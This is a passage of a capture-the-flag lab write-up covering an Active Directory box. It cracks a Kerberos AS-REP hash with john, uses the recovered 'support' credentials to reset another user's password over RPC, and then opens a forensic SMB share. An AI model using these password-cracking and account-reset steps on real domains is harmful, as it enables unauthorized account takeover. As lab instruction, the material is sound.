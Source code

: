 ```
$ sudo john user.hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:38 DONE (2020-07-07 14:54) 0.02623g/s 376048p/s 376048c/s 376048C/s #13Carlyn..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Success, we now have some credentials; the password `#00^BlackKnight`, most likely for the `support` user.

We have no luck trying our newly acquired creds on the various services available, but the user we have access to, `support`, is indicative of where we may have access. We can perform various helpdesk/support functions with RPC, so let's see if we can change the password of one of the other accounts we know about, potentially giving us elevated access.

We'll use `rpcclient` to give this a shot.

```
$ rpcclient -U "support" 10.10.10.192
Enter WORKGROUP\support's password:
rpcclient $>
```

Okay, we have RPC access. [This article](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) has excellent information on how to perform a password reset. Let's give it a shot.

```
rpcclient $> setuserinfo2 audit2020 23 'hello1234!'
```

The account that we can reset the password successfully for is `audit2020`. Let's backtrack a little with our new credentials and see what the `audit2020` user can access. We'll try enumerating the various SMB shares that we found earlier.

```
$ smbclient \\\\10.10.10.192\\forensic -U audit2020%hello1234!
Try "help" to get a list of possible commands.
smb: \>
```

We can access the `forensic` share. Let's see what we can find.

```
> dir
  .                                   D        0  Sun Feb 23 07:03:16 2020
  ..                                  D        0  Sun Feb 23 07:03:16 2020
  commands_output                     D        0  Sun Feb 23 12:14:37 2020
  memory_analysis                     D        0  Thu May 28 15:28:33 2020
  tools                               D        0  Sun Feb 23 07:39:08 2020

                7846143 blocks of size 4096. 3986813 blocks available
```
